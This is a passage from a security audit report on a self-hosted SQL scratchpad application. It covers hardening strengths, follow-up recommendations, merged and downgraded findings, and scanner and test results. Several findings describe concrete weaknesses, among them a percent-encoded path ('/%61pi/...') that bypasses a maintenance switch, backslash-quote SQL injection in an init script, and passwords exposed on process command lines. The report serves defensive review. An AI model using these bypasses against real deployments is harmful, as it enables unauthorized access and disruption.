- **Privacy-conscious logging & strict schema validation:** Fastify JSON schemas enforce `additionalProperties: false` across all request bodies; `wsId` params validate strictly against `^[a-z2-7]{8,64}$`; `IpHasher` hashes client IPs with daily-rotated 256-bit random salts; Pino redacts configured secret paths (`sql`, `password`, `authorization`, `cookie`, `remoteAddress`).
- **Hardened application container:** `deploy/docker-compose.yml` runs `app` with `read_only: true`, `cap_drop: [ALL]`, `no-new-privileges:true`, non-root `USER node`, `mem_limit: 192m`, `cpus: 1.0`, and bounded JSON log rotation; both Dockerfiles pin upstream base images by multi-arch SHA-256 digest.
- **Clean secrets & Actions baseline:** `gitleaks v8.30.1` confirmed 0 leaked secrets across all 50 commits; `pnpm audit` and `trivy v0.76.2` confirmed 0 known CVEs; all GitHub Actions are pinned to full 40-character commit SHAs with `persist-credentials: false` and default `permissions: contents: read`.

---

## 8. Recommendations beyond this PR

The following architectural improvements are out of scope for a single non-breaking security PR and should be planned as follow-up milestones:

1. **Unified client-bound workspace ownership (`AUTHZ-001`):** Issue an `HttpOnly`, `Secure`, `SameSite=Strict` session cookie (HMAC-bound to `wsId`) on `POST /api/workspaces` and verify it on all seven `:wsId` endpoints (`DELETE`, `/close`, `/reset`, `/exec`, `/import`, `/schema`, `/sessions/:session/kill`), plus rotate `wsId` on `/reset`. This closes leaked-URL hijacking and `POST /close` vs `DELETE` asymmetry without breaking roaming/mobile clients whose IP changes mid-session.
2. **Optional TLS for app-to-MariaDB connections (`CRYPTO-003`):** Add opt-in `DB_SSL` / `DB_SSL_CA` / `DB_SSL_REJECT_UNAUTHORIZED` configuration in `server/src/config.ts` and `mysql2` connection factories (plus server certificate support and `require_secure_transport` documentation) for operators deploying MariaDB on a separate host or managed database service, and scope DB user hosts beyond `'%'` where topology permits.
3. **Cryptographic image signing & verifiable provenance (`CICD-006`):** Upgrade unsigned BuildKit provenance/SBOM metadata in `.github/workflows/release.yml` by adding GitHub Artifact Attestations (`actions/attest-build-provenance`) and/or keyless Sigstore Cosign signatures over published multi-arch digests, and publish verification commands in `docs/SELF-HOSTING.md`.
4. **Expanded live-MariaDB security tests & SAST in CI:** Enable GitHub CodeQL (`javascript-typescript` and `actions`), add a Trivy image-scan gate prior to `docker/build-push-action` pushes in `release.yml`, and expand `server/src/hostile.int.test.ts` to cover streaming row-cap RSS bounds, `/exec` wall-clock termination, `DATA DIRECTORY` denial, advisory-lock denial, concurrent `createWorkspace` bursts, and `MAINTENANCE` percent-encoding bypasses against live MariaDB 11.4.

---

## 9. Out-of-scope observations

- **External reverse-proxy TLS, HSTS, and edge rate limiting:** The application listens on plain HTTP (`127.0.0.1:5050`) and relies on an external reverse proxy (outside this repository) for TLS 1.2+/1.3 termination, HTTP->HTTPS redirects, `Strict-Transport-Security` (HSTS), `X-Forwarded-For` sanitization, and volumetric edge rate limiting. Operators should align proxy configuration with the updated `docs/SELF-HOSTING.md` guidance (`INFRA-002`).
- **Host OS & Docker runtime storage/process isolation:** Enforcing a dedicated filesystem or XFS/ext4 project quota on the MariaDB data volume provides a kernel-level hard ceiling behind the 1 GB application-level storage budget (`LOGIC-003`). Mounting `/proc` with `hidepid=2` on the container host further hardens against process command-line inspection (`SECRETS-001`), and shipping container logs off-host protects audit trails from local 30 MB ring-buffer eviction (`LOGGING-006`).
- **Minor client-only prototype-key hygiene (`SqlEditor.vue`):** During Phase 2 gap verification, `web/src/components/SqlEditor.vue:88` (`buildSqlNamespace`) was observed constructing its CodeMirror table-name autocomplete map with a plain object (`{}`) instead of `Object.create(null)`. This affects only the user's local editor autocomplete and has no security impact, but switching to `Object.create(null)` avoids edge cases if a user creates a table named `constructor` or `toString`.

---

## Appendix A — Rejected, downgraded & merged findings

### Rejected findings (false positives)

**0 findings rejected.** Independent Phase 2 verification confirmed code/configuration evidence for all 85 raw Phase 1 findings (consolidating 20 cross-layer duplicates into 18 clusters and downgrading 4 findings).

### Downgraded findings (4)

| Finding ID | Layer | Severity Change | Verification Reason |
|---|---|---|---|
| `DEPS-001` | `deps` | MEDIUM -> **LOW** | Confirmed in Dockerfile:4,6,39 and .github/dependabot.yml:31-37: FROM ${NODE_IMAGE} using an ARG is skipped by Dependabot's Docker updater. Downgraded from medium to low because Trivy reports zero active CVEs in the currently pinned Node 24 base image; this is a patch-automation gap consistent with CICD-004 and CICD-005 (both low). |
| `INFRA-001` | `infra` | MEDIUM -> **LOW** | Confirmed in server/src/config.ts:48,95-108 and server/src/app.ts:125,163,227,287-289: LOADTEST_ALLOW_IPS is not rejected when NODE_ENV=production and logs no startup warning. Downgraded from medium to low because LOADTEST_ALLOW_IPS is unset by default, omitted from deploy/*.env.example, and requires explicit operator misconfiguration to activate (aligns with AUTHN-002 and LOGGING-004). Merged with AUTHN-002 and LOGGING-004. |
| `INFRA-002` | `infra` | MEDIUM -> **LOW** | Confirmed in docs/SELF-HOSTING.md:82,97-105 and verified in Node that Fastify ignores X-Real-IP (reading only X-Forwarded-For), while Docker bridge traffic arrives from the edge gateway IP rather than 127.0.0.1, and HSTS/TLS proxy config is omitted. Downgraded from medium to low because this is self-hosting documentation guidance (not a direct vulnerability in properly configured deployments); the missing /api/* security headers component is tracked separately in WEB-002. Merged with AUTHN-005. |
| `INFRA-003` | `infra` | LOW -> **INFO** | Reproduced directly in Node: parseTrustProxy('0.0.0.0/0') and parseTrustProxy('::/0') pass config.ts:15 validation, but Fastify({ trustProxy: ['0.0.0.0/0'] }) throws 'TypeError: invalid range on address: 0.0.0.0/0' at startup. INFRA-003's claim that /0 enables X-Forwarded-For spoofing is false — Fastify fails closed and refuses to start, making this an info-level config-validation robustness issue (matching AUTHN-006). Merged with AUTHN-006. |

### Merged duplicate clusters (18 clusters, 20 duplicate IDs merged — 85 raw -> 65 verified)

| Canonical ID (Eff. Sev) | Canonical Title | Merged Duplicate ID(s) (Layer, Raw Sev, Title) |
|---|---|---|
| `API-001` (HIGH) | POST /exec has no total execution-time budget; a single request can run ~19 h and pins the workspace past its TTL | `INJECTION-005` (`injection`, raw MEDIUM: Unbounded statement count and missing batch deadline in ExecEngine.execute (/exec)) |
| `API-002` (HIGH) | Query results are fully buffered in Node memory before ROW_CAP / RESPONSE_CAP_BYTES are applied (OOM against 192 MB container limit) | `LOGIC-001` (`logic`, raw HIGH: Query results are fully buffered in the Node process before ROW_CAP / RESPONSE_CAP apply, so one SELECT can OOM the app for all tenants) |
| `AUTHZ-001` (MEDIUM) | Asymmetric ownerIpHash enforcement and default-allow fallback across workspace routes | `AUTHN-003` (`authn`, raw LOW: Capability token is static for the workspace lifetime: not rotated on reset, not client-bound, and the only ownership check (/close) is bypassable via DELETE) |
| `AUTHZ-002` (MEDIUM) | MAINTENANCE=1 API kill switch bypassed via URL percent-encoding (/%61pi/...) | `API-003` (`api`, raw MEDIUM: MAINTENANCE kill switch is bypassed by percent-encoded /api paths (/%61pi/...)) |
| `LOGIC-004` (MEDIUM) | Shared 10-connection admin pool with unbounded queue is starved by /schema (6 parallel pool queries per request) and information_schema scans | `AUTHZ-003` (`authz`, raw LOW: GET /api/workspaces/:wsId/schema runs 6 parallel queries on privileged adminPool instead of ws_<hex>) |
| `CICD-004` (LOW) | CI and release workflows lack automated security scanning (dependency audit, SAST/CodeQL, container and workflow linting) | `DEPS-003` (`deps`, raw LOW: CI and Release workflows lack automated dependency and container vulnerability scanning gates) |
| `CICD-005` (LOW) | Dependabot automated security updates are disabled in repository settings despite .github/dependabot.yml stating they are enabled | `DEPS-004` (`deps`, raw LOW: Dependabot automated security updates are disabled in GitHub repository settings despite dependabot.yml comment) |
| `CRYPTO-003` (LOW) | App-to-MariaDB connections have no TLS option; workspace users are created for any host without REQUIRE SSL | `AUTHN-008` (`authn`, raw INFO: MariaDB accounts (scratchpad_admin and every ws_<hex>) are created for host '%' with plaintext, unencrypted DB connections) |
| `INFRA-001` (LOW) | LOADTEST_ALLOW_IPS rate-limit and workspace-cap bypass has no production guardrail | `AUTHN-002` (`authn`, raw LOW: LOADTEST_ALLOW_IPS rate-limit and per-IP-cap bypass has no production guard, warning or loopback restriction); `LOGGING-004` (`logging`, raw LOW: LOADTEST_ALLOW_IPS silently disables all rate limits, budgets and per-IP caps with no startup warning, usage log, or production guard) |
| `INFRA-002` (LOW) | SELF-HOSTING.md reverse-proxy guidance breaks TRUST_PROXY in Docker, cites ignored X-Real-IP, and omits HSTS/TLS config | `AUTHN-005` (`authn`, raw INFO: Self-hosting docs tell operators to forward X-Real-IP, but only X-Forwarded-For is honoured; misconfiguration collapses all clients into one rate-limit bucket) |
| `INFRA-006` (LOW) | Matching non-empty placeholder passwords in *.env.example allow silent startup with publicly known credentials | `AUTHN-004` (`authn`, raw LOW: scratchpad_admin password is only checked for non-empty; example placeholder is accepted and no rotation path exists) |
| `INJECTION-006` (LOW) | Incomplete SQL literal escaping in db/init/00-admin-user.sh allows backslash-quote SQL injection as MariaDB root | `INFRA-004` (`infra`, raw LOW: Unescaped backslashes in db/init/00-admin-user.sh SQL literal enable init-time SQL injection and corrupt backslash passwords) |
| `LOGGING-001` (LOW) | Workspace capability token (wsId) is written to logs via req.url and explicit wsId fields | `AUTHN-001` (`authn`, raw LOW: Workspace capability token (wsId) is written to application logs in plaintext); `CRYPTO-001` (`crypto`, raw LOW: Workspace capability token (wsId) written to application logs in clear text) |
| `LOGGING-005` (LOW) | sqlLogMeta logs an unsalted SHA-256 prefix of every SQL batch/import file (confirmable-text oracle) and UTF-16 length instead of byte length | `CRYPTO-002` (`crypto`, raw LOW: sqlLogMeta uses an unsalted truncated SHA-256: log entries can be confirmed against guessed SQL and linked across the daily IP-salt rotation) |
| `LOGIC-005` (LOW) | ImportByteBudget map is never pruned and is charged before the workspace is validated, so it grows without bound with distinct client keys | `API-007` (`api`, raw LOW: ImportByteBudget and rate-limit state are keyed per client and never evicted (unbounded Map growth)) |
| `SECRETS-001` (LOW) | Database init scripts pass root and admin passwords via process command-line arguments | `INFRA-005` (`infra`, raw LOW: Database init scripts pass root and admin passwords on mariadb CLI (-p and -e), exposing them in /proc/<pid>/cmdline) |
| `INFRA-003` (INFO) | TRUST_PROXY validator accepts /0 CIDR prefixes that Fastify rejects at boot (fail-closed crash) | `AUTHN-006` (`authn`, raw INFO: TRUST_PROXY validator accepts /0 prefixes that Fastify rejects, turning a typo into a boot-time crash) |
| `WEB-005` (INFO) | localStorage persists the workspace capability token (wsId) and full SQL history; loadPersistedState trusts wsId/dataset/tab ids without format or size validation | `AUTHN-007` (`authn`, raw INFO: wsId capability token persisted in localStorage with no integrity or format validation) |

### Additional Phase 2 gap-coverage checks (7 areas verified)

| Area Examined | Result | Notes |
|---|---|---|
| server/src/static.ts symlink traversal & percent-encoded /assets/ path checks | `examined_no_new_finding` | Verified static.ts:51-110: rawPath.startsWith('/assets/') at lines 91 and 102 shares the same raw-vs-decoded path root cause as AUTHZ-002 (added lines 91,102 to AUTHZ-002 so decoding happens before both /api and /assets checks). statSync follows symlinks, but Vite web/dist contains no symlinks and runtime rootfs is read_only: true. |
| scripts/verify-seeds.ts, scripts/screenshot.ts, and web/vite.config.ts build/dev scripts | `examined_no_new_finding` | Read all three files in full. verify-seeds.ts is dev/CI-only, loads tracked seeds/sample-library.sql into a random temp DB and drops it in finally. screenshot.ts cleans up its created workspace and truncates wsId in stdout. web/vite.config.ts runs static 'git rev-parse --short HEAD' with no user input and injects __GIT_SHA__ only into Vue text interpolation. |
| All Vue 3 components (web/src/App.vue, web/src/components/*.vue), web/src/utils/sql-file.ts, and web/public/* | `examined_no_new_finding` | Read every Vue SFC, sql-file.ts, and web/public/{favicon.svg,robots.txt,sitemap.xml} and grepped across server/src, web/src, shared/src, scripts/ for v-html, innerHTML, outerHTML, eval, new Function, and child_process: zero unsafe DOM/code execution sinks. AboutModal external links use rel='noopener noreferrer'. Minor client-only note: SqlEditor.vue:88 buildSqlNamespace uses plain {} instead of Object.create(null) for table-name keys (only affects user's own editor autocomplete). |
| server/src/import-engine.ts rewriteDefinerClauses & splitTopLevelCommas ReDoS and bypass ordering | `examined_no_new_finding` | Verified rewriteDefinerClauses against 5,000 repeated 'DEFINER = ' tokens (4.39 ms, linear). Confirmed checkDenylist runs after rewriteDefinerClauses (import-engine.ts:487) so stripping DEFINER cannot smuggle denied SQL past the denylist. |
| server/src/workspace-manager.ts cloneTemplate, killSessionThread, cleanupOrphans, and graceful shutdown | `examined_no_new_finding` | Verified cloneTemplate restores FOREIGN_KEY_CHECKS=1 in finally and executes views/triggers as wsUser; templateDbName is strictly validated against datasets.json regex ^[a-z0-9_-]+$. killSessionThread uses Math.trunc on handshake-provided numeric threadId. cleanupOrphans escapes all schema/user names. |
| HTTP route parameter/body schema coverage & session B handling (server/src/app.ts, shared/src/index.ts) | `examined_no_new_finding` | Checked all 10 API routes against authz-route-matrix.md: all JSON body schemas enforce additionalProperties: false, wsIdParamsSchema enforces ^[a-z2-7]+$ (8-64 chars), and session 'B' shares identical teardown, abort, and idle-session cleanup paths with session 'A'. |
| LLM / AI layer applicability | `confirmed_out_of_scope` | Verified package.json, server/package.json, and web/package.json contain zero LLM/AI SDKs or prompt/agent functionality. |

---

## Appendix B — Raw tool output summary

### Automated security & static analysis scanners (Phase 0)

| Tool | Version & Execution Mode | Target | Result Summary |
|---|---|---|---|
| `gitleaks` | `v8.30.1` (read-only official container, `git --log-opts="--all" --redact`) | Full git history (50 commits, 729.11 KB) | **0 leaks found** (exit 0). |
| `pnpm audit` | `pnpm 12.21.0` (Corepack) | `pnpm-lock.yaml` | **0 known vulnerabilities found** (exit 0). |
| `trivy` | `v0.76.2` (`trivy fs --scanners vuln,secret,misconfig` + `--include-dev-deps`, read-only container) | `pnpm-lock.yaml`, `Dockerfile`, `db/Dockerfile` | **0 vulnerabilities** (prod & dev), **0 secrets**, **0 misconfigs** in `Dockerfile`; **2 misconfigs** in `db/Dockerfile`: `DS-0002` (HIGH — no `USER` instruction, assessed as Low in `CONTAINERS-001` due to `gosu` privilege drop) and `DS-0026` (LOW — no `HEALTHCHECK` instruction, tracked in `CONTAINERS-005`). |
| `hadolint` | `v2.15.1` (read-only official container) | `Dockerfile`, `db/Dockerfile` | **1 info** in `Dockerfile:55` (`DL3066`: non-numeric `USER node`, tracked in `CONTAINERS-007`); **0 findings** in `db/Dockerfile`. |
| `actionlint` | `v1.7.12` (read-only official container) | `.github/workflows/ci.yml`, `.github/workflows/release.yml` | **1 shellcheck warning** in `.github/workflows/ci.yml:177` (`SC2034`: unused loop variable `i`, tracked in `CICD-008`); **0 findings** in `release.yml`. |
| `eslint` | `v10.15.0` (`pnpm lint`) | Entire repository | **0 errors, 0 warnings** (exit 0). |

### Baseline build, quality & test verification (Phase 0)

| Check | Command | Status | Result |
|---|---|---|---|
| Dependency install | `pnpm install --frozen-lockfile --ignore-scripts` | **PASS** | Exit 0 (zero dependency lifecycle scripts executed) |
| Lint | `pnpm lint` | **PASS** | Exit 0 (`eslint .`, `v10.15.0`) |
| Format check | `pnpm format:check` | **PASS** | Exit 0 (`prettier --check .`, `v3.6.0`) |
| Build | `pnpm build` | **PASS** | Exit 0 (`@sql-scratchpad/shared`, `server`, `web`) |
| Typecheck | `pnpm typecheck` | **PASS** | Exit 0 across all 3 workspace packages |
| Unit & Web tests | `pnpm exec vitest run --project unit --project web` | **PASS** | **6 files passed, 62 tests passed, 0 failed** (`vitest v5.1.1`: `exec-engine.test.ts` 18, `static.test.ts` 6, `hardening.test.ts` 10, `utils.test.ts` 10, `mariadb.test.ts` 4, `components.test.ts` 14) |
| Integration / Seeds / E2E | `pnpm test:int`, `pnpm seeds:verify`, `pnpm test:e2e` | **NOT RUN** | Requires live MariaDB 11.4 instance (unavailable in static audit environment) |
